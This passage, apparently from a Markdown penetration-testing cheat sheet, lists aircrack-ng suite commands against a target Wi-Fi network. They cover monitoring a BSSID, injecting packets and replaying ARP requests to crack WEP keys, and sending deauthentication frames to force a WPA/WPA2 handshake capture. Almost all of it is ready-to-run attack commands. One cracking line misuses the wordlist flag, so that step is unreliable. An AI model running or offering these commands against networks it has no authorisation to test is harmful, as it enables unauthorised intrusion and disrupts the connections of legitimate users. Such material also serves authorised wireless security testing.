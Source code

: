 ### Target Specific Network
```bash
# Monitor specific BSSID
sudo airodump-ng --bssid 00:11:22:33:44:55 wlan0mon

# Monitor on specific channel
sudo airodump-ng --channel 6 --bssid 00:11:22:33:44:55 wlan0mon

# Save capture to file
sudo airodump-ng -w capture -c 6 --bssid 00:11:22:33:44:55 wlan0mon
```

## WEP Cracking

### Capture Packets
```bash
# Start capture on target
sudo airodump-ng -w wep_capture -c 6 --bssid 00:11:22:33:44:55 wlan0mon

# Start injection (separate terminal)
sudo aireplay-ng -1 0 -a 00:11:22:33:44:55 wlan0mon

# Capture ARP requests
sudo aireplay-ng -3 -b 00:11:22:33:44:55 wlan0mon
```

### Crack WEP Key
```bash
# Start cracking with captured packets
sudo aircrack-ng -w wep_capture-01.cap

# Cracking with multiple files
sudo aircrack-ng wep_capture*.cap

# Specify BSSID
sudo aircrack-ng -b 00:11:22:33:44:55 wep_capture*.cap
```

## WPA/WPA2 Handshake Capture

### Capture Handshake
```bash
# Monitor target network
sudo airodump-ng -w wpa_capture -c 6 --bssid 00:11:22:33:44:55 wlan0mon

# Wait for handshake or force deauth
# In another terminal:
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```
